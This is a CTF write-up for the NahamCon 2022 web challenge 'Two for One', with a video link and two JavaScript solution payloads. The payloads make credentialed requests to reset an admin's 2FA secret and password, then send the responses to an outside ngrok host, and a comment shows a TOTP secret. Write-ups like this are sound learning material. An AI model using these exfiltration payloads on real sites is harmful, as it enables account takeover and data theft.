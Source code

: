```yaml
---
name: Two for One (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Two for One (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Two for One

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1906 "NahamCon CTF 2022: Two for One")

## Description

> Need to keep things secure? Try out our safe, the most secure in the world!

## Solution

#### 2fa_exfil.js

```js
// Extract 2fa code from admin, can then generate QR code for GAuth (update the secret)
// https://www.google.com/chart?chs=200x200&chld=M%7C0&cht=qr&chl=otpauth://totp/Fort%20Knox:admin?secret=APJ5VXIQVMM5UF6X&issuer=Fort%20Knox
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://challenge.nahamcon.com:30666/reset2fa", true);
xhr.withCredentials = true;
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io/?flag=" + flag);
    exfil.send();
};
xhr.send();
```

#### reset_pw.js

```js
// Reset admin password
var http = new XMLHttpRequest();
var url = "http://challenge.nahamcon.com:30666/reset_password";
var data = JSON.stringify({
    password: "admin",
    password2: "admin",
    otp: "661035",
});
http.open("POST", url, true);

// Not actually needed, just for debugging
http.onload = function () {
    var flag = btoa(http.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};

http.setRequestHeader("Content-type", "application/json");

http.send(data);
```
